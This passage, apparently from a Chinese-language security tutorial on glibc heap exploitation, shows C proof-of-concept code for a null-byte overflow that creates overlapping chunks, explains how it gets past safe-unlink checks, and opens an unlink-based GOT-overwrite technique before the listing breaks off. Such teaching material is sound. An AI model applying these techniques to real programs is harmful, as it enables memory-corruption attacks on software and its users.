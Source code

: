 ```c
        printf("x is at 0x%x, fast is at 0x%x, A is at 0x%x, B is at 0x%x, C is at 0x%x\n", x, fast, A, B, C);
        //x|fast|A|B|C
        //why fast is needed? 如果没有fast这个堆块，则释放x时，为了检测相邻的下一个堆块(A)是否释放，会去验证B头部的pre_size和pre_inuse，由于B的头部已经被篡改，故会出错。
        //
        /* A has a null byte offset vul.
         * A overflow to fast
         * change the pre_inuse bit
        */
        A[0xFc] = 0x00;
        //change the pre_size of B (in A's own memory)
        A[0xF8] = 0x10;
        A[0xF9] = 0x02;
        A[0xFa] = 0x00;
        A[0xFb] = 0x00;

        printf("before trigger vul, A: %s\n", A);
        printf("before trigger vul, fast: %s\n", fast);

        free(x);//aovid the safe unlinking when merge from x->B
        free(B);//merge from x to B . Then overlap fast and A
        char *new = malloc(0x150 - 8);
        memset(new,'w',0x150 - 8);
        printf("new is at 0x%x\n", new);
        printf("after trigger vul, A: %s\n", A);
        printf("after trigger vul, fast: %s\n", fast);
}
```
在堆块A中发生了null byte溢出，通过修改在A堆块内部的pre_size字段，使其长度为x + fast + A的长度之和。接着借助null byte溢出，修改了B堆块头部的第一个字节，把pre_inuse字段修改为0。这使libc错误的认为堆块B的前一个堆块处于空闲状态。
![null-byte](http://image.3001.net/images/20151229/1451369429576.png!small)

这时，如果释放堆块B，根据上边堆块释放过程章节所述，libc会首先根据pre_inuse判断相邻的前一个堆块是否处于释放状态，如果处于释放状态，则根据pre_size字段找到前一个堆块的头部，通过我们的前面一个步骤的操作，这里会找到堆块x的头部，并接着通过safe unlink操作把堆块x从freelist中卸下。为了safe unlink不会出错，比较方便的方法是让x处于空闲状态。故我们应该在释放堆块B之前释放x，这样堆块x到堆块B的整个空间就都被释放掉了。

值得注意的是，堆块x和堆块B之间必须间隔两个堆块。假如没有堆块fast，则我们在释放堆块x时，libc需要知道x相邻的后一个堆块A是否处于空闲状态，而获取这个信息是通过A的size字段找到堆块B，再根据堆块B的pre_inUse位来判断的。而上一步的操作已经使堆块B的pre_inuse字段为0了。这样libc就会以为堆块A处于空闲状态，而对A进行unlink操作而导致出错。（当然，如果释放堆块x在null byte溢出前发生则没有这个问题了）

![null-byte](http://image.3001.net/images/20151229/1451369429633.png!small)

#### 1.2 DwShoot
DwShoot修改被释放的heap的头部数据，pre_size和size，使得size的pre_inuse=0，从而向前融合，导致unlink()操作执行，达到DwShoot的目的。由于safe_unlink的检测，要构造fake_head的数据，使得它的fd和bc都指向某个内存ptr，且*ptr=to_free_p，从而绕过safe的检测，达到写数据的目的。但是如何控制写数据的地址为GOT表呢？
```
#include <stdlib.h>
long gl[0x40];
void main()
{
	//set global var
	memset(gl,'i',0x3F);
	char * A, * B, * C, * new;
	A = malloc(0x100 - 8); //
	memset(A,'a',0x100 - 8);
	B = malloc(0x100 - 8); //
	memset(B,'b',0x100 - 8);
	C = malloc(0x200 - 8); // for stable
	memset(C,'c',0x200 - 8);

	//pre_size,pre_inuse bit must be 1
```